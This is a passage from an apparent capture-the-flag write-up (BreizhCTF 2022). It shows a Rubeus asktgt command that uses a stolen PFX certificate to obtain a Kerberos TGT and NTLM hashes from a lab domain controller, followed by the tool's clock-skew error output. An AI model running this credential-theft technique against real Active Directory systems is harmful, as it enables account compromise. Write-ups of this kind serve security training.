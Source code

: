 ![PFX details](/assets/breizhctf-22-pfx-details.png)

Then, we tried to use Dirkjanm [PKINITTools](https://github.com/dirkjanm/PKINITtools) to get a TGT via PKINIT, but the tool failed to handle unicode characters correctly.

Using `Rubeus` `asktgt` command, we can retrieve a TGT and fetch the NTLM hashes of the 3 accounts with `/getcredentials`. Note that PowerShell replace unicode characters by `??????` but it works like a charm:

```
PS C:\Users\user\Downloads> ./Rubeus.exe asktgt /user:????????????? /certificate:?????????????.pfx /domain:conti.ru /dc:10.0.20.11 /createnetonly:C:\Windows\System32\cmd.exe /getcredentials
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/  v2.0.2
[*] Action: Ask TGT
[*] Showing process : False
[*] Username        : AL9SDSYT
[*] Domain          : EDDZ0POS
[*] Password        : WKQYD994
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 4944
[+] LUID            : 0x33dbab
[*] Using PKINIT with etype rc4_hmac and subject: CN=?????
[*] Building AS-REQ (w/ PKINIT preauth) for: 'conti.ru\?????????????'
[*] Target LUID : 3398571
[*] Using domain controller: 10.0.20.11:88
[X] KRB-ERROR (37) : KRB_AP_ERR_SKEWPS 
```
The error `KRB_AP_ERR_SKEWPS` indicates that we have a time drift with the DC, we need to change time of our client to comply with the server. Fortunatly, the domain controller indicates its time in the Kerberos exchange: